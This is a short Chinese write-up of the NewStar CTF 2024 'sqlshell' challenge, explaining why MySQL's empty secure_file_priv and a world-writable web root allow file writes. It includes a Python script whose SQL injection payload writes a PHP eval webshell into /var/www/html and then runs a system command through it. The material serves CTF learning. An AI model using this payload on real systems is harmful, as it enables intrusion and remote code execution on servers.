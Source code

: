 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```


# sqlshell

mysql 启动时，加了选项 `--secure_file_priv=''`，这个的选项作用是允许 mysql 进行文件读写。

- 如果这个选项是 `NULL`，说明不能进行文件读写
- 如果这个选项是指定的目录，说明只能对指定目录进行文件读写
- 如果这个选项是空字符串，也就是 `''`，能对任意目录进行文件读写

程序运行时，执行了命令 `chmod 777 /var/www/html`，作用是允许该目录被所有用户写入文件。

所以思路就是通过注入 SQL 语句，进行写文件，写一个木马到网站根目录（`/var/www/html`）下即可。

```python
import requests

url = 'http://192.168.109.128:8889'

payload = '\' || 1 union select 1,2,"<?php eval($_GET[1]);" into outfile \'/var/www/html/3.php\'#'

res = requests.get(url,params={'student_name': payload})
res = requests.get(f'{url}/3.php', params={'1': 'system("cat /you_cannot_read_the_flag_directly");'})
print(res.text)
```
